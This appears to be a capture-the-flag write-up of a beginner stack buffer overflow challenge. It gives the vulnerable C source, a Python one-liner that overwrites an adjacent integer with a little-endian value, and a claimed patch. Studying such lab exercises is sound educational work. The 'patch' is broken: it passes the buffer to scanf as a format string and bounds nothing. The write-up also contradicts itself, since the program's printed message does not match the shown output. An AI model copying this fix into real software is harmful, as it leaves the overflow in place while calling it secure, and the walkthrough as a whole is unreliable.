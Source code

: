 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    gets(buffer);
    if(g == 0x44864486)
    {
        printf("Your first trainning is complete operative.\n");
    }

}
```

\x86\x44\x86\x44

So as we can see here, this program suffers from the same vulnerabillity that level 0 suffered from. The inproper use of the gets() function (really that function shouldn't be used at all).
The buffer is the same size, and the integer is stored right next to the buffer so we should be able to reach the buffer in the same manner.
However this time, the integer is being compared to the hex value 0x44864486 (equivalent to 1149650054 in decimal). This won't be a problem however
since we can just push that value to the integer. That hex value is four bytes (just like ints in 32 bit C programs) so we shouldn't have a problem pushing to it. So our exploit will look like this

```
  filler (489 bytes to fill buffer space) + 0x44864486
```

One thing, due to how C programs read hex values we will have to push the hex in little endian format (least significant bit first). Essentially we will have to break the hex string up into four seperate pieces, and push them on in reverse order (and we ignore the 0x in the beginning). Look at the actual exploit for more detail. 

```
root@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/1# echo `python -c 'print "1"*489 + "\x86\x44\x86\x44"'` | ./1 
Just a little bit harder.
```

And just like that, we pwned the binary. Now let's patch it. It has the same vulnerabillity as the previous challenge, so the fix is the same.

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    scanf(buffer, stdin, sizeof(buffer));
    if(g == 0x44864486)
    {
        printf("Just a little bit harder.\n");
    }

}
```

So we replace gets with scanf, and limited the amount of input it can take to the size of buffer so it can't overflow it. Now let's test it.

```
root@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/1# echo `python -c 'print "1"*489 + "\x86\x44\x86\x44"'` | ./1_secure 
root@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/1# 
```

And just like that, we patched the binary.


